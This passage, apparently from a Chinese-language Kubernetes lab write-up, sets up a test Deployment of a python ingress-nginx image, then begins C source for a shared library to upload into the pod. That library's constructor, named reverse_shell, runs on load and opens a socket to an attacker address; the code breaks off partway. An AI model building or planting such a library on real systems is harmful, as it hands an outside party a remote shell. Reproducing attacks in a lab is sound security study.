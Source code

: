 因为pod的调度是在master节点，所以构建镜像的时候应该在master节点构建

准备deployment文件

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: python-app
  namespace: test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: python-app
  template:
    metadata:
      labels:
        app: python-app
    spec:
      containers:
      - name: python-container
        image: docker.io/library/python-test-ingress-nginx:latest
        imagePullPolicy: Never
```

创建单独的namespace构建pod

```
kubectl create ns test
kubectl apply -f python_deploy.yaml
kubectl get pod -n test
```

![image-20250517191832367](images/13.png)

如果不需要调度到master节点，是在node节点构建的镜像的话，江苏nodeSelector限制 Pod 只调度到 `worker1`

```
spec:
  nodeSelector:
    kubernetes.io/hostname: worker1
```

## 需加载的so文件上传至pod

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<sys/socket.h>
#include<netinet/in.h>
#include<arpa/inet.h>


__attribute__((constructor)) static void reverse_shell(void)
{
    char *server_ip="192.168.121.102";
    uint32_t server_port=2333;
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
```